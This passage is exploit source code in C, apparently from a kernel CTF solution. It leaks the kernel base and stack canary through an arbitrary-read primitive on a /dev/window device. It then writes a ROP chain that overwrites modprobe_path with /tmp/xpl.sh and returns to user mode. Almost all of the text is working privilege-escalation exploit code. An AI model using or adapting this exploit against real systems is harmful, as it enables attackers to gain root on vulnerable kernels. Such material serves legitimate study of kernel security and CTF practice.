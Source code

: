 ```python
}

int main() {

        unsigned long kbase = 0;
        char new_path[] = "/tmp/xpl.sh\x00";

        save_state();
        fd = open("/dev/window", O_RDWR);
        if (fd == -1)
                perror("error: unable to open /dev/window");

        kbase = 0xffffffff80000000;

        while (1) {
                unsigned long ret = aar(kbase);
                printf("[-] trying 0x%lx... got 0x%lx\n", kbase, ret);
                if (ret != 0) {
                        break;
                }
                printf("\r");
                kbase += 0x100000;
        }

        unsigned long canary = aar(aar(kbase+0x2744050)-0x6db898);

        printf("[*] kbase at 0x%lx\n", kbase);
        printf("[*] canary at 0x%lx\n", canary);

        char payload[0x1000];
        unsigned long* krop = (unsigned long*)&payload[0x40];
    
        // fixup canary
        *krop++ = canary;
        *krop++ = 0;

        // copy_from_user(modprobe_path, xpl_sh, strlen(xpl_sh)+1)
        *krop++ = pop_rdi;
        *krop++ = modprobe_path;
        *krop++ = pop_rsi;
        *krop++ = (unsigned long)new_path;
        *krop++ = pop_rdx;
        *krop++ = strlen(new_path) + 1;
        *krop++ = copy_from_user;

        // return gracious to user-mode -> win function 
        *krop++ = swapgs_iret;
        *krop++ = 0;
        *krop++ = 0;
        *krop++ = user_rip;
        *krop++ = user_cs;
        *krop++ = user_rflags;
        *krop++ = user_sp;
        *krop++ = user_ss;

        write(fd, payload, (char*)krop - payload);

        close(fd);
}
```
